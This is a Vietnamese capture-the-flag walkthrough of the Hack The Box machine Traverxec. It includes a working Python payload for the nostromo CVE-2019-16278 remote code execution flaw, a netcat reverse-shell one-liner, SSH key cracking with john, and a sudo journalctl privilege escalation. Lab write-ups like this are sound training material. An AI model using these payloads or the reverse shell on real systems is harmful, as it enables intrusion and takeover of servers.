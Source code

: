 ![image](https://hackmd.io/_uploads/ryyZpuOsA.png)

# Machine info and Comment
## Machine info
[Link](https://app.hackthebox.com/machines/217/information)

## Comment
Máy này việc khai thác khá là mượt chủ yếu tập trung trong khai thác user flag 

# Recon
## nmap 
Sau khi nmap ta scan được **2** port ssh và http 
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -n -sS 10.10.10.165       
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 22:15 EDT
Nmap scan report for 10.10.10.165
Host is up (0.24s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.34 seconds
```
Từ đây, ta sẽ scan tiếp 2 port này xem có gì để khai thác
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80 -sCV 10.10.10.165
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 22:15 EDT
Nmap scan report for 10.10.10.165
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-title: TRAVERXEC
|_http-server-header: nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.64 seconds
```
Trong đó port **80** chạy dịch vụ nostromo 1.9.6. Phiên bản này có [CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278) có thể dẫn tới RCE

## Port 80 - http
Khi truy cập sẽ xuất hiện 1 trang web có giao diện:

![image](https://hackmd.io/_uploads/rJlhFDYj0.png)

Trang web có tính năng điền form nhưng không sử dụng được

![image](https://hackmd.io/_uploads/rJq1qPFiC.png)

# User flag
## Exploit
### CVE-2019-16278
Đây là lỗ hổng Directory Traversal trong hàm **http_verify** (là hàm được sử dụng để kiểm tra các thành phần của một yêu cầu HTTP đến (như URI, phương thức, tiêu đề, v.v.) để đảm bảo rằng yêu cầu này hợp lệ.)) của nostromo từ phiên bản 1.9.6 cho phép attacker thực thi mã từ xa bằng một request HTTP 
```
def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)
```

- POST /.%0d./.%0d./.%0d./.%0d./bin/sh: Truy cập vào một tập tin thực thi shell 
- echo\necho\n{} 2>&1'.format(cmd): Chuỗi lệnh thực thi trên máy chủ mục tiêu, được chèn vào thông qua **cmd**. Kết quả đầu ra của lệnh sẽ được chuyển hướng (2>&1) để hiển thị lỗi và kết quả trên cùng một kênh.

![image](https://hackmd.io/_uploads/BkBRJuFoR.png)

Sau khi chạy **id** thành công, ta sẽ tạo 1 reverse shell
```
mkfifo /tmp/lol;nc 10.10.14.93 1234 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
![image](https://hackmd.io/_uploads/r1Y6guYsC.png)

## Post-Exploit
### Lateral Movement
Sau khi truy cập vào `/home/david` bị từ chối cùng 1 số cách để nâng cao quyèn không thành công, tìm các file config để xem có thể liệt kê được gì không tại `/var/nostromo/conf`

![image](https://hackmd.io/_uploads/H1D0lhtiC.png)

Thấy được file chứa credential 

![image](https://hackmd.io/_uploads/rJM8WntiR.png)

Dùng **john** để crack mât khẩu

![image](https://hackmd.io/_uploads/Sy0Xf3YsR.png)

Tuy nhiên khi swtich user lại không được 

![image](https://hackmd.io/_uploads/S1icM3FjR.png)

Quay lại file config kia vì còn có thông tin của một folder có thể khai thác được đó là `public_www`

![image](https://hackmd.io/_uploads/HkXq72YoC.png)

Vào trong thư mục này ta thấy file backup ssh, có thể file này có thể sử dụng để ssh được. Để tải file ta sử dụng **base64**

```
#Máy mục tiêu
$ base64 backup-ssh-identity-files.tgz

#Máy tấn công
┌──(kali㉿kali)-[~]
└─$ cat base64_file|base64 --decode > backup.tgz

┌──(kali㉿kali)-[~/backk]
└─$ tar -xvf backup.tgz                         
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```
### John-The-Ripper
![image](https://hackmd.io/_uploads/BkZ4Ohtj0.png)

Nó yêu cầu key nên ta sẽ sử dung **john** để crack 

![image](https://hackmd.io/_uploads/Sy_3uhFjC.png)

![image](https://hackmd.io/_uploads/HJRCOhKjA.png)

# Root flag
## Exploit
Tại thư mục `/home/david/` có một thư mục `/bin` (binary) khi các có nội dung sau:
![image](https://hackmd.io/_uploads/ByuAK3toR.png)

Có thể thấy **journalctl** đang được chạy thoải mái dưới quyền sudo. [GTFOBin](https://gtfobins.github.io/gtfobins/journalctl/#sudo) có hỗ trợ leo quyền

![image](https://hackmd.io/_uploads/BJ0Uc3KsA.png)

![image](https://hackmd.io/_uploads/Sk099ntjA.png)

## Post-Exploit
```
# cat /root/root.txt
d8f71632f90e703d7*******
```

![image](https://hackmd.io/_uploads/BkygjnFoC.png)
